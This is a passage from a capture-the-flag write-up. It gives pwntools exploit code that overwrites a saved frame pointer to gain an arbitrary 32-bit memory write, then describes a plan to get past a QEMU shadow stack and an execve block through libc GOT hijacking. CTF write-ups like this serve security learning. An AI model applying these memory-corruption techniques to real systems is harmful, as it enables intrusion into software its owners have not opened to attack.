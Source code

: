 ```python
    def manual_jump_rbp_overwrite(r, year, target, should_fault=False):
        encoded_rbp = p64(target + 0x34)
        if b'\x0c' in encoded_rbp or b'\x20' in encoded_rbp or b'':
            print("cant do whitespace :(")
            exit(1)
        r.sendline(b"4")
        r.sendline(str(year))
        r.sendline(b"0")
        r.sendline(flat({
            16: 0x5add011,
            24: manual_jump_rbp+0x48,
            40: 0x41414141 if should_fault else canary,
            48: target + 0x34,
            56: pie_base+0x193e,
            80: 0x6942069420-1,
            200: "please_give_me_flag\x00",
        },length=256))
        try:
            r.recvuntil(b">>")
        except: # recvuntil will eof after it has crashed
            pass

    def write_u32(r, address, value, should_fault=False):
        log.info(f"writing u32 {hex(value)} to {hex(address)}")
        manual_jump_rbp_overwrite(r, 0, address)
        manual_jump_rbp_overwrite(r, value & 0xffffffff, manual_jump_rbp, should_fault=should_fault)
```

## arbitrary write... now what?

At this point we have the following capabilities:

- leak of a .text pointer, a libc pointer, and a stack pointer
- arbitrary write of a u32
- although I did not need it, the list function can be used for an arbitrary u32

In most cases the challenge would be essentially over -- arbitrary write is a powerful primitive, right?  Just drop a one gadget over function pointers until something matches the constraints?  In this case we're still at the beginning of the challenge.  As mentioned earlier, the binary is running inside QEMU with a plugin that does three things:

- implement a shadow stack
- block execve
- add a backdoor syscall to print the flag

To get the flag we need to be able to make a syscall with control of the first two arguments -- controlling rax, rdi, and rsi (or use the libc syscall function and control rdi, rsi, and rdx).  However, the tools to do that are extremely scarce.  I was stuck here for a long time with many failed approaches. After many failed approaches I came across a writeup on [libc GOT hijacking](https://github.com/n132/Libc-GOT-Hijacking/blob/main/Post/README.md).  I'm familiar with the use of the libc GOT as a replacement for free_hook/malloc_hook to call a controlled function but I'd never considered using it for a code reuse attack. 
